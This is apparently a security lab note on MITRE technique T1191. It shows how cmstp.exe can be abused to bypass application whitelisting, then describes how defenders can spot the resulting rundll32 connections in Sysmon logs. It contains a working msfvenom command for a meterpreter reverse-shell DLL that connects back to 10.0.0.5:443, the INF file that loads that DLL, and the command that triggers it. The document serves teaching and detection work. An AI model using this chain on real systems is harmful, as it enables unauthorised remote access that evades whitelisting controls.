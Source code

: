 ```yaml
---
description: CSMTP code execution - bypass application whitelisting.
---
```


# T1191: CSMTP

## Execution

Generating the a reverse shell payload as a DLL:

{% code-tabs %}
{% code-tabs-item title="evil.dll" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > /root/tools/mitre/cmstp/evil.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Creating a file that will be loaded by CSMTP.exe binary that will in turn load our evil.dll:

{% code-tabs %}
{% code-tabs-item title="f.inf" %}
```csharp
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
C:\experiments\cmstp\evil.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="mantvydas"
ShortSvcName="mantvydas"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Invoking the payload:

```csharp
PS C:\experiments\cmstp> cmstp.exe /s .\f.inf
```

## Observations

Rundll32 is spawned which then establishes the connection back to the attacker:

![](../.gitbook/assets/cmstp-rundll32.png)

A very privitive way of hunting for suspicious instances of rundll32 initiating connections would be skimming through the sysmon logs and looking for network connections being established by rundll32 immediately/soon after it had been spawned by cmstp.

Note how the connection was established one second after the process creation. This behaviour depends on what the payload is supposed to do, but if the payload is a reverse shell, it usually attempts connecting back immediately upon execution, which is exactly our case:

![](../.gitbook/assets/cmstp-kibana%20%281%29.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1191" %}

{% embed url="https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/" %}



